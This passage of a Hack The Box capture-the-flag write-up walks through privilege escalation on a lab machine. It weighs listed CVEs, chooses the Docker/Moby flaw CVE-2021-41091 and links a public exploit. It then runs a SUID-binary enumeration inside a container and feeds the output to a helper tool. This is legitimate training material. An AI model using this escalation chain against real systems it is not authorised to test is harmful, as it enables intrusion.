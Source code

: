 ```

Administrator
CISO
Monitor Two
Security Team
```

Nice! We got an email from the security team with vulnerabilities they identified on the system.
Lets go through these vulnerabilities.
- `CVE-2021-33033`: This is a kernel exploit. As on the target system is no `gcc`  installed and we are working on a HTB machine it is unlikely that they want us to use this exploit for the privilege escalation. Otherwise this would be worth a check.
- `CVE-2020-25706`: This is an XSS vulnerability and not therefore not useful to gain higher privileges in this context
- `CVE-2021-41091`: This one looks interesting as Moby is installed!

Researching for `CVE-2021-41091` shows the following GitHub repository

> `https://github.com/UncleJ4ck/CVE-2021-41091`
{: .prompt-info }

What do we need to use this exploit? and get `root` on the host?
- We need the file `exp.sh` on the system and execute it as user `marcus`
- We need an active docker container where `/bin/bash` has the SUID flag set

So we need to take a step back, access the docker instance again and perform a privilege escalation there to get `root` and set the SUID bit on `/bin/bash`

Access docker machine again
Look for dangerous binaries which have the SUID flag
```bash
bash-5.1$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
<u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root tty 35048 Jan 20  2022 /usr/bin/wall
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwxr-sr-x 1 root shadow 31160 Feb  7  2020 /usr/bin/expiry
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 80256 Feb  7  2020 /usr/bin/chage
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwxr-sr-x 1 root shadow 38912 Aug 26  2021 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 30872 Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /bin/mount
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /bin/umount
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /bin/su
```

Use `https://github.com/Ha-L0/suidPWN` on your attacker machine to check which binary may be used for privilege escalation
```bash
python3 suidPWN.py
Paste your find output. When you are done press ctrl+d
-rwxr-sr-x 1 root tty 35048 Jan 20  2022 /usr/bin/wall
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwxr-sr-x 1 root shadow 31160 Feb  7  2020 /usr/bin/expiry
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 80256 Feb  7  2020 /usr/bin/chage
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwxr-sr-x 1 root shadow 38912 Aug 26  2021 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 30872 Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /bin/mount
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /bin/umount
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```